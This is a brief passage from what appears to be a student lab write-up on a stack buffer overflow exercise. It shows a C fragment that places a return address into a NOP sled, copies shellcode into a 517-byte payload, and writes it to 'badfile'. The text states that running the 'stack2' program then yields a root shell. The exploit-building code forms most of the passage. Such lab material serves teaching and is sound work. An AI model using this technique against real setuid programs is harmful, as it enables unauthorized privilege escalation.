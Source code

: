 ```c
    // Put the return address at the beginning of the NOP instructions, but after the return address.
    *((long *)(buffer + 0x36)) = buffer + 0x80;

    memcpy(buffer + 517 - sizeof(shellcode), shellcode, sizeof(shellcode));

    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

And then gain access to a root shell by running the `stack2` program.

![Successfully performing the extra credit buffer overflow attack](figures/ec-exploit.png)
